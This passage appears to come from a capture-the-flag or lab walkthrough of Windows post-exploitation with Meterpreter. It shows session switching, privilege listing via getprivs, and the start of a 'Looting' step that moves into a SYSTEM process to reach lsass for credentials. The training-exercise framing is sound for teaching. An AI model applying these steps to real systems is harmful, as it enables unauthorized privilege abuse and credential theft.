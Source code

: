     [*] Cleaning up registry keys ...
    ```

- Following completion of the privilege escalation a new session will be opened. Interact with it now using the command `sessions SESSION_NUMBER`

    ```bash
    meterpreter > sessions 4
    [*] Session 4 is already interactive.
    ```

- We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?

    ```bash
    meterpreter > getprivs

    Enabled Process Privileges
    ==========================

    Name
    ----
    SeBackupPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeCreatePagefilePrivilege
    SeCreateSymbolicLinkPrivilege
    SeDebugPrivilege
    SeImpersonatePrivilege
    SeIncreaseBasePriorityPrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeLoadDriverPrivilege
    SeManageVolumePrivilege
    SeProfileSingleProcessPrivilege
    SeRemoteShutdownPrivilege
    SeRestorePrivilege
    SeSecurityPrivilege
    SeShutdownPrivilege
    SeSystemEnvironmentPrivilege
    SeSystemProfilePrivilege
    SeSystemtimePrivilege
    SeTakeOwnershipPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
    ```

    It's `SeTakeOwnershipPrivilege`.

## Looting
- Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows. First, let's list the processes using the command `ps`. Note, we can see processes being run by NT AUTHORITY\SYSTEM as we have escalated permissions (even though our process doesn't).
